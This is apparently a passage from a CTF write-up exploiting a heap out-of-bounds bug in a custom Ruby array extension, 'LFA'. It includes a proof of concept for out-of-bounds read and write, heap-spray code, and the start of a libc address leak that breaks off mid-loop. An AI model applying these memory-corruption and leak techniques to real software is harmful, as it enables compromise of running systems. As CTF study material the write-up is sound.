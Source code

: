 To trigger the vunleriblity, we first access the array with a large index(to make size==index), then, we trigger the free of chunks by remove operation. finaly, we get an array with size equal to the large index, but the real size is 0x10. we get a heap Out Of bound Access(OOA). the poc is like this

```ruby
require 'LFA'

$ooa_size=0x50000
$arr = LFA.new
$arr[0] = 0x12345678
$arr[$ooa_size] = 11

i=0
while i<=$ooa_size do
    $arr.remove i
    i+=0x10
end

puts $arr[0x40000] #OOR
$arr[0x40000]=0xc0de #OOW
```

## Exploit

With the OOA vulnerability above, the next thing to do in standard approach is to create two LFA. and use the OOA vulnerability of first LFA to overwrite the p2buffer pointer field of the second LFA to 0 and size field to 0xffffffffffffffff. after that, we can use the second LFA to achieve full address space access.

After we get full address space access, it is not hard to get the flag. but I am not going to follow the standard way, because it's nothing to do with ruby. I want to play in a different way: play with the fucking ruby heap and the fucking garbage collector, which is full of fengshui and xuanxue for me. I never exploit ruby vm before and I want to play with it.


### LEAK

with the OOA capacity, LEAK is quite easy. Note that, as the result of the presence of the garbage collector, the heap layout is not stable, so we cannot achieve a stable leak by read arr[fixed index]. 

To get rid of the unstable heap layout and leak heap address, First, we need to spray lots of strings on heap, then we use the Out Of bound Read(OOR) to find the buffer of string we sprayed by some feature of the ruby string structure and heap address.(heap address start with 0x55 and there is a size field ahead of buffer). 
To leak the libc address, we use a similar way, using the OOR to find the main arena address by the features of the main arena address(main arena start with 0x7f and end with 0xc78)


```
$spray_size=0x3000
i=0
spray_arr=Array.new($spray_size)
payload_size=0x1004
while i<=$spray_size do
	spray_arr[i]="O"*payload_size
	i+=1
end

i=0
$idx=0
while i<$ooa_size do
    if touint($arr[i+1])&0xff00 == 0x7f00 and touint($arr[i])&0xfff == 0xc78
        $libcaddr=touint($arr[i+1])<<32
        $libcaddr+=touint($arr[i])
        $libcaddr-=(0x3c4c78+0x16000)
```